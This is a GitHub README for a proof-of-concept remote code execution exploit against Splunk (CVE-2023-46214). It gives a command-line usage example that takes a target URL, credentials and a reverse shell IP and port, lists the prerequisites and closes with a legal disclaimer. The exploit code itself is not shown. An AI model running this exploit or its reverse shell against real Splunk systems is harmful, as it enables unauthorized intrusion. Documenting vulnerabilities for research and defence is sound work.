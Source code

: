 # Splunk RCE - PoC

Proof of concept exploit for recent [CVE-2023-46214](https://nvd.nist.gov/vuln/detail/CVE-2023-46214), [SVD-2023-1104](https://advisory.splunk.com/advisories/SVD-2023-1104)

![poc](screenshots/poc.gif)

## Usage

The Splunk instance URL, username, password, reverse shell IP, and port are all required as command-line parameters. For example:

```console
$ python3 CVE-2023-46214.py --url <Splunk_URL> --username <Username> --password <Password> --ip <Reverse_Shell_IP> --port <Reverse_Shell_Port>
```

## Prerequisites

- Splunk credentials with upload permission to adddatamethods
    - Note: another vector might be possible, this is just what I used
- Splunk is not running on SHC mode

## Legal Disclaimer

The Proof of Concept (PoC) script provided in this repository serves solely for educational and research objectives. Its purpose is to showcase a specific vulnerability and aid in comprehending associated security risks.

Any use of this script for unauthorized activities, including but not limited to unauthorized system access, unauthorized testing, or other forms of misuse, is unequivocally forbidden.

The creators and contributors of this repository disclaim all liability for the improper use or any damage or harm resulting from the use of this script. By utilizing this script, you consent to use it in a responsible manner and at your own risk.
